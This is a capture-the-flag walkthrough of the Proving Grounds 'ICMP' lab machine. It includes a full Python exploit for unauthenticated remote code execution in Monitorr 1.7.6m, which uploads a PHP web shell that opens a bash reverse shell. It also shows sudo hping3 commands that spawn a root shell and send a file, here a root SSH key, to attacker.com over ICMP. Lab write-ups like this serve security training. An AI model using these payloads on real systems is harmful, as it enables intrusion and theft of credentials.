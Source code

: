 ```yaml
---
title: "Proving grounds Play: ICMP"
layout: post
date: 2023-07-15 12:00
categories: writeup
---
```


Proving grounds Play - ICMP CTF writeup.

## Walkthrough on Youtube

[![youtube](/assets/images/CTF/Proving_Grounds/ICMP/youtube.png)](https://youtu.be/6fyL_fFyV4c)

## NMAP

![img](/assets/images/CTF/Proving_Grounds/ICMP/nmap.png)

## PORT 80 Tech Stack

- Operating System: Debian
- Web Technology: Apache, PHP (view-page-source)

## Monitorr

![img](/assets/images/CTF/Proving_Grounds/ICMP/monitorr%20version.png)

![img](/assets/images/CTF/Proving_Grounds/ICMP/searchsploit_search.png)

### Exploit Code

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

# Exploit Title: Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)
# Date: September 12, 2020
# Exploit Author: Lyhin's Lab
# Detailed Bug Description: https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/
# Software Link: https://github.com/Monitorr/Monitorr
# Version: 1.7.6m
# Tested on: Ubuntu 19

import requests
import os
import sys

if len (sys.argv) != 4:
	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

    requests.post(url, headers=headers, data=data)

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    requests.get(url, headers=headers)
```
### Obtaining Reverse Shell

![img](/assets/images/CTF/Proving_Grounds/ICMP/rce1.png)

**Obtained local flag**

![img](/assets/images/CTF/Proving_Grounds/ICMP/local_flag.png)

# Privilege Escalation
### Obtain user

The permission is denied to access the `devel` folder as current user is not a system user. But as the tip found in the reminder file below.

![img](/assets/images/CTF/Proving_Grounds/ICMP/reminder.png)

The php file `crypt.php` inside the `devel` folder disclosed the SSH password for the user `fox`.

```php
<?php
echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da');
?>
```
**User access obtained.**

![img](/assets/images/CTF/Proving_Grounds/ICMP/user.png)

## Root Privilege Escalation

Check the current user sudo permissions.

![img](/assets/images/CTF/Proving_Grounds/ICMP/sudo-l.png)

Search for exploit in GTFO bins for `hping3`

### Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
```sh
sudo hping3
/bin/sh
```

The file is continuously sent, adjust the `--count` parameter or kill the sender when done. Receive on the attacker box with:
```sh
sudo hping3 --icmp --listen xxx --dump
```

RHOST=attacker.com
LFILE=file_to_read
```sh
sudo hping3 "$RHOST" --icmp --data 500 --sign xxx --file "$LFILE"
```

## Transfering SSH key locally to obtain root access through hping3

### ICMP Listener

![img](/assets/images/CTF/Proving_Grounds/ICMP/icmp-listener.png)

### ICMP: Data send

![img](/assets/images/CTF/Proving_Grounds/ICMP/icmp_key_send.png)

### ICMP: Data Receive

![img](/assets/images/CTF/Proving_Grounds/ICMP/icmp_root_ssh_key.png)

## SSH Root User

SSH to the root user using the obtained root SSH key.

![img](/assets/images/CTF/Proving_Grounds/ICMP/root.png)

**Root user access and proof.txt obtained**

![img](/assets/images/CTF/Proving_Grounds/ICMP/proof.png)

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
